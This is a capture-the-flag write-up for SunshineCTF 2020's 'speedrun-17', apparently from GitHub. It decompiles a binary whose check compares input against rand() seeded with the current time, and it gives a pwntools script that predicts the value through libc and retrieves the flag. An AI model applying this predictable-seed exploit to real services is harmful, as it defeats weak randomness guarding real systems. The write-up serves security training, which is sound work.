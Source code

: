# **speedrun-17**
## Task
nc chal.2020.sunshinectf.org 30017
File: chall_17
Tag: binary exploitation 

## Solution

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
* No defect found
* System 64 bit
* 
### Decompile with ghidra
```c
void main(void)

{
  time_t tVar1;
  long in_FS_OFFSET;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  tVar1 = time((time_t *)0x0);
  srand((uint)tVar1);
  local_14 = rand();
  __isoc99_scanf(&DAT_00100aea,&local_18);
  if (local_14 == local_18) {
    win();
  }
  else {
    printf("Got: %d\nExpected: %d\n",(ulong)local_18,(ulong)local_14);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
Just make a race with random function.
Trick to use the libc to generate the random value with the same real time server.
Here we go!
### Exploit
```python
from pwn import *
from ctypes import *

p = remote('chal.2020.sunshinectf.org',30017)
binary = context.binary = ELF('./chall_17')
libc = cdll.LoadLibrary('libc.so.6')
libc.srand(libc.time(None))
p.sendline(str(libc.rand()))
output = p.recvline()
print(output)
```
### Output
```bash
[+] Opening connection to chal.2020.sunshinectf.org on port 30017: Done
[*] '/home/kali/speedrun_sunshineCTF2020/chall_17'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'sun{unholy-confessions-b74c1ed1f1d486fe}\n'
```
